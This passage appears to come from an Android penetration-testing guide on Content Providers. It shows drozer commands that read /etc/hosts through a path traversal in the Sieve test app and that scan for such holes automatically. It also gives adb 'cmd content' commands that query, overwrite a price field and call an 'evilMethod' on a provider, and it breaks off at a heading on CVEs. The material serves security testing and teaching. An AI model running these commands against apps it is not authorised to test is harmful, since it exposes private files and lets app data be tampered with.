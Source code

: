 If you can access files, you can try to abuse a Path Traversal (in this case this isn't necessary but you can try to use "_../_" and similar tricks).

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1            localhost
```

**Automatic Path Traversal discovery by Drozer**

```
dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```

## 2023-2025 Updates & Modern Tips

### Drozer 3.x (Python 3) is out

WithSecure resumed maintenance of drozer in 2022 and ported the framework to **Python 3** (latest **3.1.0 – April 2024**).  
Besides compatibility fixes, new modules that are particularly useful when working with Content Providers include:

* `scanner.provider.exported` – list only providers with `android:exported="true"`.
* `app.provider.grant` – automatically call `grantUriPermission()` so you can talk to providers that expect `FLAG_GRANT_READ_URI_PERMISSION` / `FLAG_GRANT_WRITE_URI_PERMISSION` on Android 12+.
* Better handling of **Scoped Storage** so file-based providers on Android 11+ can still be reached.

Upgrade (host & agent):

```bash
pipx install --force "git+https://github.com/WithSecureLabs/drozer@v3.1.0"
adb install drozer-agent-3.1.0.apk
```

### Using the built-in `cmd content` helper (ADB ≥ 8.0)

All modern Android devices ship with a CLI that can query/update providers **without installing any agent**:

```bash
adb shell cmd content query  --uri content://com.test.provider/items/
adb shell cmd content update --uri content://com.test.provider/items/1 \
      --bind price:d:1337
adb shell cmd content call   --uri content://com.test.provider  \
      --method evilMethod --arg 'foo'
```

Combine it with `run-as <pkg>` or a rooted shell to test internal-only providers.

### Recent real-world CVEs that abused Content Providers
